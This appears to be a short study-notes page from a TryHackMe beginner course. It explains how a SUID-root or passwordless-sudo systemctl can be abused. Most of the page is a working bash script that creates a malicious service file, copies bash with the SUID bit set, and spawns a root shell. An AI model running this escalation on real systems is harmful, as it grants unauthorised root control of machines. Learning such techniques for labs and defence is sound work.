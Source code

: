 # Exploiting “systemctl”

If systemctl is SUID root, then a malicious service file can easily be abused to create a root shell.

```bash
FILE=`mktemp -u`
echo "[Service]" >> $FILE.service
echo "Type=oneshot" >> $FILE.service
echo "ExecStart=/bin/cp /bin/bash $FILE.sh" >> $FILE.service
echo "ExecStart=/bin/chmod +xs $FILE.sh" >> $FILE.service
echo "[Install]" >> $FILE.service
echo "WantedBy=multi-user.target" >> $FILE.service
systemctl link $FILE.service
systemctl start $FILE.service
$FILE.sh -p # Root!
```

Even if systemctl is not SUID root, so long as you have NOPASSWD sudo access to it this trick will work.

## References

* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)
* [GTFOBins: systemctl](https://gtfobins.github.io/gtfobins/systemctl/)

- - - -

<span aria-hidden="true">👤</span> Nathan Acks  
<span aria-hidden="true">📅</span> November 3, 2021
